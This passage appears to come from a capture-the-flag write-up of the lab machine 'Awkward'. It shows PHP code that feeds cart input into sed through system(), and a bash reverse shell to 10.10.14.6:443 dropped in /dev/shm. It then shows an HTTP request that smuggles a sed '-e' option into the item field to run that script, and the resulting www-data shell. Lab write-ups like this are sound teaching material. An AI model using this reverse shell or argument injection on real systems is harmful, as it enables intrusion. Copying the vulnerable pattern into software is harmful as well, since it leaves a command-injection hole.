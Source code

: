 ```

    if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
        echo "Item removed from cart";
    }
    else {
        echo "Invalid item";
    }

```

#### Shell

To run this on Awkward, I’ll create a simple reverse shell script:

```

bean@awkward:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1'
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1
bean@awkward:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > shell.sh
bean@awkward:/dev/shm$ chmod +x shell.sh 

```

I’ll also make sure I have something in my cart (or at least that the cart file exists). Then I can send the injection:

```

POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://store.hat-valley.htb
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close
Referer: http://store.hat-valley.htb/cart.php
Pragma: no-cache
Cache-Control: no-cache

item=1'+-e+'1e+/dev/shm/shell.sh'+'&user=8b80-fbfb-a3c-e97a&action=delete_item

```

It hangs, but there’s a connection at `nc` as www-data:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.185 40314
bash: cannot set terminal process group (1408): Inappropriate ioctl for device
bash: no job control in this shell
www-data@awkward:~/store$

```
